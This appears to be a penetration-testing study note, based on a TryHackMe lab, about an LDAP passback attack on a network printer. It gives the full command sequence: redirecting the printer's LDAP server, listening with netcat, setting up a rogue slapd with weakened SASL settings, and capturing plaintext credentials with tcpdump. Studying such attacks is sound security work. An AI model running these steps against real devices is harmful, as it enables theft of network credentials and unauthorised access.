 # Passback Attacks

## LDAP

- Imagine we have a printer in the network. In the example on tryhackme we have access to the setting page. It has a login page so we can alter the Server IP and put ours instead  
![login page](../.res/2022-07-27-16-27-49.png) 
- `nc -lvp 389`
- We get a connection back when sending the form. The console shows `supportedCapabilitiesresponse`
- As mentioned in the room:  
"The `supportedCapabilitiesresponse` tells us we have a problem. Essentially, before the printer sends over the credentials, it is trying to negotiate the LDAP authentication method details. It will use this negotiation to select the most secure authentication method that both the printer and the LDAP server support. If the authentication method is too secure, the credentials will not be transmitted in cleartext. With some authentication methods, the credentials will not be transmitted over the network at all! So we can't just use normal Netcat to harvest the credentials. We will need to create a rogue LDAP server and configure it insecurely to ensure the credentials are sent in plaintext."

- `sudo apt-get update && sudo apt-get -y install slapd ldap-utils && sudo systemctl enable slapd`
- `sudo dpkg-reconfigure -p low slapd` to configure the LDAP server
- We then have to make a file `olcSaslSecProps.ldif`

```
#olcSaslSecProps.ldif
dn: cn=config
replace: olcSaslSecProps
olcSaslSecProps: noanonymous,minssf=0,passcred
```

- `sudo ldapmodify -Y EXTERNAL -H ldapi:// -f ./olcSaslSecProps.ldif && sudo service slapd restart`

- `sudo tcpdump -SX -i eth0 tcp port 389` (we need to replace eth0 with the appropriate interface)
- And we should get the password, just like in our example from tryhackme:  
![](../.res/2022-07-26-16-52-21.png)

{% embed url="https://www.mindpointgroup.com/blog/how-to-hack-through-a-pass-back-attack/" %} A Pen Tester’s Guide to Printer Hacking {% endembed %}

## Resources

{% embed url="https://www.mindpointgroup.com/blog/how-to-hack-through-a-pass-back-attack/" %} A Pen Tester’s Guide to Printer Hacking {% endembed %}
{% embed url="https://tryhackme.com/room/breachingad" %} Breaching AD - TryHackMe{% endembed %}